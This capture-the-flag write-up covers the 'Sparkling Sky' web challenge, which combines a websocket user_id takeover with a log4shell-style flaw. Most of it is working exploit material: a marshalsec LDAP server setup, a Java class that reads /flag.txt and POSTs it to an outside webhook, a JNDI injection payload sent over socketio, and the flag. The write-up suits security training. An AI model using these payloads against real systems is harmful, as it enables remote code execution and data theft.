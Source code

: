 # Sparkling Sky

- **Category:** Web
- **Solves:** 49
- **Difficulty:** Medium-Easy
- **Author:** @sanmatte

## Description

I am developing a game with websockets in python. I left my pc to a java fan, I think he really messed up.

## Details

The challenge is a minigame where players can move their character (a bird) on the screen. When an unexpected bird movement happens it is logged by the anticheat.

## Solution

The website had 2 major vulnerabilities. You can control another player bird with the parameter `data['user_id']`. And the logging mechanism was a replication of `log4shell` vulnerability.

To wrap it up this is a simple guide to exploit the vulnerability.

- Set up an LDPA server
- Create a java class that will be executed by log4j
- Host the java class
  
### LDPA Server

You can use marshalsec:
```bash
git clone https://github.com/mbechler/marshalsec.git
cd ./marshalsec/
mvn clean package -DskipTests


java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<YOUR WEBSERVER IP>:<YOUR WEBSERVER PORT>/#Exploit"
```

### Java Class

You need to create a java class, that will be executed by the challenge, to retrieve the flag.

On *Exploit.java*:
```java
import java.net.HttpURLConnection;
import java.net.URL;
import java.io.OutputStream;
import java.nio.file.Files;
import java.nio.file.Paths;

public class Exploit {

    static {

        try {
            String filePath = "/flag.txt";

            // Read the contents of the file into a String
            String fileContent = new String(Files.readAllBytes(Paths.get(filePath)));

            String url = "https://<YOUR WEBHOOK>/upload";

            URL obj = new URL(url);
            HttpURLConnection con = (HttpURLConnection) obj.openConnection();
            con.setRequestMethod("POST");
            con.setDoOutput(true);
            OutputStream os = con.getOutputStream();
            byte[] input = fileContent.getBytes("utf-8");
            os.write(input, 0, input.length);
            int responseCode = con.getResponseCode();
            System.out.println("sent: " + responseCode);
            con.disconnect();

        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
Compile the java file:
```bash
javac Exploit.java
```

### Host the java class
On the directory where the java class is saved:
```bash
python3 -m http.server <YOUR WEBSERVER PORT>
```

### Redirect Log4j to your webserver
```python
import requests
import socketio

URL = "http://sparklingsky.challs.srdnlen.it:8081/"
credentials = {
    "username": "user1337",
    "password": "user1337"
}

session = requests.Session()

try:
    login_response = session.post(URL+"/login", data=credentials)
    if login_response.status_code == 200:
        print("Login successful")
    else:
        print("Login failed: ", login_response.status_code, login_response.text)
        exit()
except Exception as e:
    print("error during login: ", e)
    exit()

sio = socketio.Client()

@sio.on('connect')
def on_connect():
    print("Connected to the server")

@sio.on('update_bird_positions')
def on_update_bird_positions(data):
    print("Received bird positions: ", data)

try:
    cookie = session.cookies.get_dict()
    headers = {"Cookie": f"session={cookie['session']}"}
    sio.connect(URL, headers=headers)
    print("Connecting to the socket server...")
except Exception as e:
    print("error during socket connection: ", e)
    exit()

from time import sleep
sleep(1) # wait to receive server response
sio.emit('move_bird', {"user_id":1,"x": 0, "y": 0, "angle": "${jndi:ldap://<YOUR LDPA_SERVER IP>:1389/Exploit}"})
sleep(1) # wait to receive server response
sio.emit('move_bird', {"user_id":1,"x": 10000000000000000, "y": 10000000000000000, "angle": "${jndi:ldap://<YOUR LDPA_SERVER IP>:1389/Exploit}"})
sleep(1) # wait to receive server response
```

### FLAG
```
srdnlen{I_th1nk_h3_r34lly_m3ss3d_up}
```
